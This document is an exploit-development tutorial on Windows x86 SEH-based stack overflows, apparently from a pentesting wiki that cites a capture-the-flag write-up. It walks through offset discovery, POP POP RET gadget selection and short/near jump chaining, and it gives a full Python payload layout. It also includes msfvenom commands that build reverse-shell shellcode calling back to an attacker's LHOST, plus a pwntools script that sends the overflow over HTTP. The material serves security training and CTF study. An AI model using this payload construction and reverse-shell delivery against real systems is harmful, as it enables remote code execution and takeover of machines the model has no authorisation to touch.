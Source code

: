 # Windows SEH-based Stack Overflow Exploitation (nSEH/SEH)

SEH-based exploitation is a classic x86 Windows technique that abuses the Structured Exception Handler chain stored on the stack. When a stack buffer overflow overwrites the two 4-byte fields

- nSEH: pointer to the next SEH record, and
- SEH: pointer to the exception handler function

an attacker can take control of execution by:

1) Setting SEH to the address of a POP POP RET gadget in a non-protected module, so that when an exception is dispatched the gadget returns into attacker-controlled bytes, and
2) Using nSEH to redirect execution (typically a short jump) back into the large overflowing buffer where shellcode resides.

This technique is specific to 32-bit processes (x86). On modern systems, prefer a module without SafeSEH and ASLR for the gadget. Bad characters often include 0x00, 0x0a, 0x0d (NUL/CR/LF) due to C-strings and HTTP parsing.

---

## Finding exact offsets (nSEH / SEH)

- Crash the process and verify the SEH chain is overwritten (e.g., in x32dbg/x64dbg, check the SEH view).
- Send a cyclic pattern as the overflowing data and compute offsets of the two dwords that land in nSEH and SEH.

Example with peda/GEF/pwntools on a 1000-byte POST body:

```bash
# generate pattern (any tool is fine)
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
# or
python3 -c "from pwn import *; print(cyclic(1000).decode())"

# after crash, note the two 32-bit values from SEH view and compute offsets
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x32424163   # nSEH
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x41484241   # SEH
# ➜ offsets example: nSEH=660, SEH=664
```

Validate by placing markers at those positions (e.g., nSEH=b"BB", SEH=b"CC"). Keep total length constant to make the crash reproducible.

---

## Choosing a POP POP RET (SEH gadget)

You need a POP POP RET sequence to unwind the SEH frame and return into your nSEH bytes. Find it in a module without SafeSEH and ideally without ASLR:

- Mona (Immunity/WinDbg): `!mona modules` then `!mona seh -m modulename`.
- x64dbg plugin ERC.Xdbg: `ERC --SEH` to list POP POP RET gadgets and SafeSEH status.

Pick an address that contains no badchars when written little-endian (e.g., `p32(0x004094D8)`). Prefer gadgets inside the vulnerable binary if protections allow.

---

## Jump-back technique (short + near jmp)

nSEH is only 4 bytes, which fits at most a 2-byte short jump (`EB xx`) plus padding. If you must jump back hundreds of bytes to reach your buffer start, use a 5-byte near jump placed right before nSEH and chain into it with a short jump from nSEH.

With nasmshell:

```text
nasm> jmp -660           ; too far for short; near jmp is 5 bytes
E967FDFFFF
nasm> jmp short -8       ; 2-byte short jmp fits in nSEH (with 2 bytes padding)
EBF6
nasm> jmp -652           ; 8 bytes closer (to account for short-jmp hop)
E96FFDFFFF
```

Layout idea for a 1000-byte payload with nSEH at offset 660:

```python
buffer_length = 1000
payload  = b"\x90"*50 + shellcode                    # NOP sled + shellcode at buffer start
payload += b"A" * (660 - 8 - len(payload))           # pad so we are 8 bytes before nSEH
payload += b"\xE9\x6F\xFD\xFF\xFF" + b"EEE"     # near jmp -652 (5B) + 3B padding
payload += b"\xEB\xF6" + b"BB"                      # nSEH: short jmp -8 + 2B pad
payload += p32(0x004094D8)                           # SEH: POP POP RET (no badchars)
payload += b"D" * (buffer_length - len(payload))
```

Execution flow:
- Exception occurs, dispatcher uses overwritten SEH.
- POP POP RET unwinds into our nSEH.
- nSEH executes `jmp short -8` into the 5-byte near jump.
- Near jump lands at the beginning of our buffer where the NOP sled + shellcode reside.

---

## Bad characters

Build a full badchar string and compare the stack memory after the crash, removing bytes that are mangled by the target parser. For HTTP-based overflows, `\x00\x0a\x0d` are almost always excluded.

```python
badchars = bytes([x for x in range(1,256)])
payload  = b"A"*660 + b"BBBB" + b"CCCC" + badchars  # position appropriately for your case
```

---

## Shellcode generation (x86)

Use msfvenom with your badchars. A small NOP sled helps tolerate landing variance.

```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
  -b "\x00\x0a\x0d" -f python -v sc
```

If generating on the fly, the hex format is convenient to embed and unhex in Python:

```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
  -b "\x00\x0a\x0d" -f hex
```

---

## Delivering over HTTP (precise CRLF + Content-Length)

When the vulnerable vector is an HTTP request body, craft a raw request with exact CRLFs and Content-Length so the server reads the entire overflowing body.

```python
# pip install pwntools
from pwn import remote
host, port = "<TARGET_IP>", 8080
body = b"A" * 1000  # replace with the SEH-aware buffer above
req = f"""POST / HTTP/1.1
Host: {host}:{port}
User-Agent: curl/8.5.0
Accept: */*
Content-Length: {len(body)}
Connection: close

""".replace('\n','\r\n').encode() + body
p = remote(host, port)
p.send(req)
print(p.recvall(timeout=0.5))
p.close()
```

---

## Tooling

- x32dbg/x64dbg to observe SEH chain and triage the crash.
- ERC.Xdbg (x64dbg plugin) to enumerate SEH gadgets: `ERC --SEH`.
- Mona as an alternative: `!mona modules`, `!mona seh`.
- nasmshell to assemble short/near jumps and copy raw opcodes.
- pwntools to craft precise network payloads.

---

## Notes and caveats

- Only applies to x86 processes. x64 uses a different SEH scheme and SEH-based exploitation is generally not viable.
- Prefer gadgets in modules without SafeSEH and ASLR; otherwise, find an unprotected module loaded into the process.
- Service watchdogs that automatically restart on crash can make iterative exploit development easier.

## References
- [HTB: Rainbow – SEH overflow to RCE over HTTP (0xdf)](https://0xdf.gitlab.io/2025/08/07/htb-rainbow.html)
- [ERC.Xdbg – Exploit Research Plugin for x64dbg (SEH search)](https://github.com/Andy53/ERC.Xdbg)
- [Corelan – Exploit writing tutorial part 7 (SEH)](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-7-unicode-0day-buffer-overflow-seh-and-venetian-shellcode/)  
- [Mona.py – WinDbg/Immunity helper](https://github.com/corelan/mona)

